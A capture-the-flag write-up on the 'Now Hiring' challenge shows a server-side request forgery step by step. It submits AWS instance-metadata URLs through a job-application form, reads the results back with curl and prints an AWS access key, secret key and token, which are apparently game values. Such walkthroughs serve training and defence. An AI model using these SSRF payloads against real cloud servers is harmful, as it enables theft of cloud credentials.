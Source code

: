 ### Objective 10, "Now Hiring" / "IMDS Exploration"

![](now_hiring_trees.jpg)

This task is about Server-Side-Request-Forgery, where an attacker is able to force the server to
invoke a request, while the attacker is able to influence the URL of the request.
This can be used to reach internal network resources like AWS metadata, which are normally blocked
for the attacker. 

But first we talk to Noxious O. D'or in Jack's Bathroom from whom we learn about
the IMDSv1 Metadata of AWS and that you can drill down in the API in a REST style. See 
the [official documentation](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-dynamic-data-retrieval.html)
from AWS.

So let's fill out the apply form with our data. We notice that we can set an URL as
part of our job application.

Let's begin with "http://169.254.169.254/latest/meta-data/iam/"

![](apply.jpg)

The server responded with an html page, but the embedded image is unrenderable. Very suspicious.

![](result.jpg)

Let's examine the URL of the embedded image. It is: https://apply.jackfrosttower.com/images/Oliver%20Michels.jpg

So, we curl this URL in a shell:

```
> curl https://apply.jackfrosttower.com/images/Oliver%20Michels.jpg
info
security-credentials/%
```

Hmm, let's dive down into security-credentials. Therefore we must change our SSRF URL to:
"http://169.254.169.254/latest/meta-data/iam/security-credentials/"

Again, we get a unrenderable image in the result page. Notice the server overwriting the file 
contents from previous requests.

```
> curl https://apply.jackfrosttower.com/images/Oliver%20Michels.jpg
jf-deploy-role%
```

And finally we arrive at our new attack URL
"http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role"


```
> curl https://apply.jackfrosttower.com/images/Oliver%20Michels.jpg
{
	"Code": "Success",
	"LastUpdated": "2021-05-02T18:50:40Z",
	"Type": "AWS-HMAC",
	"AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
	"SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
	"Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
	"Expiration": "2026-05-02T18:50:40Z"
}
```

That's it, we got the secret AWS credentials. There is also a very good 
[blogpost](https://blog.appsecco.com/server-side-request-forgery-ssrf-and-aws-ec2-instances-after-instance-meta-data-service-version-38fc1ba1a28a) 
on this topic.
